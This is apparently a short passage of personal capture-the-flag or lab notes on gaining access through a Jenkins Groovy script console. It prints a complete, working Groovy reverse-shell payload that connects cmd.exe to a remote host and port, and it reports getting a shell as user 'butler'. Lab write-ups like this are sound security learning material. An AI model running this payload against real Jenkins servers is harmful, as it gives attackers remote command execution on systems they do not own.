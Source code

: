 - We can add our script here : http://192.168.157.132:8080/script
- Reference : https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

```
String host="192.168.1.10";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![[Pasted image 20250325170359.png]]
- Got the shell as `butler`
- ![[Pasted image 20250325170417.png]]